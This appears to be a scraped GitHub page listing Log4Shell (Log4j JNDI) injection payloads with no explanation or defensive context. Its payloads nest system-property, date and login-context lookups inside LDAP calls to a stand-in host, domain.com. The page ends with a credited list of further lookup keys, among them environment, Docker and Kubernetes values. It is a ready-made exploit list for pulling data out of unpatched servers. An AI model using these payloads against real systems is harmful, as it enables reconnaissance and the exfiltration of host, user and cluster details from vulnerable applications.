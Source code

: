 # System Properties Lookup
${jndi:ldap://${sys:logPath}.domain.com/j}
${jndi:ldap://${sys:java.version}.domain.com/j}
${jndi:ldap://${sys:java.vendor}.domain.com/j}
 
# Structured Data Lookup
${jndi:ldap://${sys:logPath}.domain.com/j}
 
# Date Lookup
${jndi:ldap://${date:MM-dd-yyyy}.domain.com/j}
 
# Context Map Lookup
${jndi:ldap://${ctx:loginId}.domain.com/j}
 
# Some Great Keywords to pay with: 
Credit: https://gist.github.com/bugbountynights/dde69038573db1c12705edb39f9a704a
```
${ctx:loginId}
${map:type}
${filename}
${date:MM-dd-yyyy}
${docker:containerId}
${docker:containerName}
${docker:imageName}
${env:USER}
${event:Marker}
${mdc:UserId}
${java:runtime}
${java:vm}
${java:os}
${jndi:logging/context-name}
${hostName}
${docker:containerId}
${k8s:accountName}
${k8s:clusterName}
${k8s:containerId}
${k8s:containerName}
${k8s:host}
${k8s:labels.app}
${k8s:labels.podTemplateHash}
${k8s:masterUrl}
${k8s:namespaceId}
${k8s:namespaceName}
${k8s:podId}
${k8s:podIp}
${k8s:podName}
${k8s:imageId}
${k8s:imageName}
${log4j:configLocation}
${log4j:configParentLocation}
${spring:spring.application.name}
${main:myString}
${main:0}
${main:1}
${main:2}
${main:3}
${main:4}
${main:bar}
```